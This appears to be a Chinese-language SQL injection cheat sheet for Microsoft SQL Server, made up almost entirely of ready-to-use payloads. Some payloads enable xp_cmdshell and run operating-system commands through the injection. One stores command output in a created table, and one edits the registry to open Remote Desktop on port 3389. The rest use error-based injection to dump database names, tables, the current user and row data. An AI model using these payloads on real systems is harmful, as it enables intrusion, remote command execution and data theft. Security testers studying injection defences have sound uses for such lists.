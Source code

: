 ```
```
- 开启xp_cmdshell
```
;EXEC sp_configure 'show advanced options',1;RECONFIGURE;EXEC sp_configure 'xp_cmdshell',1;RECONFIGURE--+
```
- 命令执行
```
';exec master..xp_cmdshell 'net user'--+	
' and 1=(select * from openrowset('sqloledb','trusted_connection=yes','set fmtonly off exec master..xp_cmdshell ''net user'''))--+
```
- 创建一个包含两个字段t1的cmd_sql表
```
'; CREATE TABLE cmd_sql (t1 varchar(8000))--+
将执行结果存入t1中
';+insert into cmd_sql(t1) exec master..xp_cmdshell 'net user'--+
```
- 开启3389端口
```
';exec master..xp_cmdshell 'REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 0 /f'--+	
```

#### mssql报错注入

- 查看版本号
```
file_name(@@version)
```
- 变换N的值就可以爆出所有数据库的名称
```
' and (convert(int,db_name(N)))>0--+ 
```
- 查看当前用户
```
' and (user)>0--+ 	
' and 1=(select CAST(USER as int))--+
```
- 获取当前数据库
```
' and 1=(select db_name())--+
```
- 获取数据库该语句是一次性获取全部数据库，且语句只适合>=2005
```
' and 1=(select quotename(name) from master..sysdatabases FOR XML PATH(''))--+
' and 1=(select '|'%2bname%2b'|' from master..sysdatabases FOR XML PATH(''))--+
```
- 获取数据库所有表（只限于mssql2005及以上版本）
```
' and 1=(select quotename(name) from 数据库名..sysobjects where xtype='U' FOR XML PATH(''))--+
' and 1=(select '|'%2bname%2b'|' from 数据库名..sysobjects where xtype='U' FOR XML PATH(''))--+
' and 1=(select top 1 name from sysobjects where xtype='u' and name <> '第一个数据库表名')--+
```
- 一次性爆N条所有字段的数据（只限于mssql2005及以上版本）
```
' and 1=(select top N * from 指定数据库..指定表名 FOR XML PATH(''))--+
' and 1=(select top 1 * from 指定数据库..指定表名 FOR XML PATH(''))--+
```
- 暴表
```
' and 1=convert(int,(select top 1 table_name from information_schema.tables))--+
```
